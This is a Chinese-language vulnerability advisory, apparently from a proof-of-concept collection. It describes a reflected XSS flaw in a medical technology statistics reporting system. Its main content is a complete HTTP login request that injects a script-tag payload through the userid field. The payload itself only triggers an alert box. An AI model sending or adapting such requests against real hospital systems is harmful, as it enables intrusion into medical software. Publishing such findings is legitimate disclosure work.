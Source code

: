 # 心医国际医技统计报表系统存在XSS漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际是中国专业的医疗云应用解决方案提供商，铺建并运营全国领先的智能医疗云平台，依托十年的数据积累和业务实践，持续创新智能医疗场景应用。业务服务覆盖诊疗、教学、科研、管理等多维度，助力政府、医院及产业合作伙伴，打造线上线下高效协同的智慧医疗健康服务体系，目前已建成覆盖全国31个省，联结2万余家医疗机构的智能医疗云平台，助力建设并服务青海、河南、陕西、山西、贵州、新疆、江西、广西、甘肃9大省级远程医疗平台，服务通达80%全国三甲级医院;成功建设并服务全国300余个省、市、县及专科医联体。心心医国际医技统计报表系统存在XSS漏洞  
</font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">心医国际医技统计报表</font>![1714374819079-557cb0bb-eb99-43fd-bdbe-e10c186b405f.png](./img/4yG1B6lXa12dD60v/1714374819079-557cb0bb-eb99-43fd-bdbe-e10c186b405f-348600.png)<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">三、漏洞复现</font>**

```plain
POST /EasyReport/login.do?method=handleRequestInternal HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 55
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=E590069FD1A0C5B3ACA365A9A270FD01
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

pwd=admin&userid="><ScRiPt>alert(1)</sCrIpT>&userrole=0
```

![1714378510351-d404cf53-907d-4f32-8083-9eef103238d9.png](./img/4yG1B6lXa12dD60v/1714378510351-d404cf53-907d-4f32-8083-9eef103238d9-698289.png)



> 更新: 2024-06-17 09:27:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/py7flewrq4o85dbe>